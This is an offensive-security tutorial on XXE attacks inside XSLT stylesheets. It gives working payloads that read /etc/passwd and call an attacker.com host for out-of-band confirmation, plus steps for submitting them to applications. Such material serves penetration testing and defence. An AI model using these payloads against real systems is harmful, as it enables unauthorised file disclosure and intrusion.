

# XXE Inside XSLT Documents

## Context

In this article, we explore the exploitation of XXE (XML External Entity) vulnerabilities within XSLT (Extensible Stylesheet Language Transformations) documents. Our goal is to demonstrate how attackers can use crafted XSLT documents to disclose sensitive data or execute commands through vulnerable XSLT processors. To follow this guide, you should be familiar with XML structures, XSLT processing, entity declarations, and the general principles of XXE exploitation.

## Theory

### XSLT and Its Role in XML Processing

XSLT, or Extensible Stylesheet Language Transformations, is a language used to transform XML documents into different formats, like HTML or plain text, by applying a set of rules defined in XSLT stylesheets. These stylesheets themselves are written in XML and can include various processing instructions and elements.

The core principle of XSLT processing involves parsing an XML input document and applying transformation logic found in XSLT documents. An XSLT document can contain entity declarations, leading to potential vulnerabilities if not handled securely.

### XXE Attack Surface in XSLT Documents

XSLT processors can become vulnerable to XXE attacks if they are configured to parse untrusted XSLT documents with external entity resolution enabled. An attacker can submit a crafted XSLT document containing malicious external entity declarations. Once parsed by the XSLT processor, these declarations are resolved, which can expose sensitive files or connect to remote resources.

### Processor-Specific XXE Behavior

Entities in XSLT documents are sometimes resolved by the processor's default settings or due to misconfiguration. Some processors, such as Saxon and Xalan, are known to allow entity resolution by default. Applications often trust user-supplied XSLT, assuming they are safe, while in reality, they may offer an attack vector for XXE exploitation.

### Typical XXE Payloads in XSLT

Malicious XSLT can include external entities declared in the DOCTYPE header of the XML document. By judiciously crafting payloads, attackers can evade naive input filters, embedding entities within XSLT templates or parameters to bypass initial security checks.

### Attack Flow: XXE in XSLT



## Practice

### Injecting XXE Payload into XSLT Stylesheet

To exploit XXE in an XSLT document, you need to craft a malicious XSLT include an external entity in the DOCTYPE declaration.

- Craft a malicious XSLT document that contains an external entity in the DOCTYPE. This step prepares the payload for injection.

```xml
<?xml version="1.0"?>
<!DOCTYPE xsl:stylesheet [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="'&xxe;'"/>
  </xsl:template>
</xsl:stylesheet>
```

- Submit the malicious XSLT to the application endpoint that accepts user-supplied stylesheets. Target endpoints may include file upload fields, APIs, or direct input areas.
  
- Trigger the transformation process in the application to parse and execute the XSLT. You might need to submit a separate XML document for transformation to initiate this process.
  
- Observe the output for file content leakage or error messages. Successful exploitation will result in the disclosure of sensitive data or out-of-band interactions with the attacker's infrastructure.

### Out-of-Band XXE via XSLT

- Craft an XSLT document that references an external entity hosted on an attacker-controlled server. This setup can confirm entity resolution through DNS or HTTP callbacks.

```xml
<?xml version="1.0"?>
<!DOCTYPE xsl:stylesheet [
  <!ENTITY xxe SYSTEM "http://attacker.com/xxe">
]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="'&xxe;'"/>
  </xsl:template>
</xsl:stylesheet>
```

- Monitor the attacker's server for incoming requests. Successful exploitation indicates entity resolution enabled, typically confirmed by a network request reaching your server.

## Tools

- **Burp Suite**
- **Responder**
- **tcpdump**
- **nc**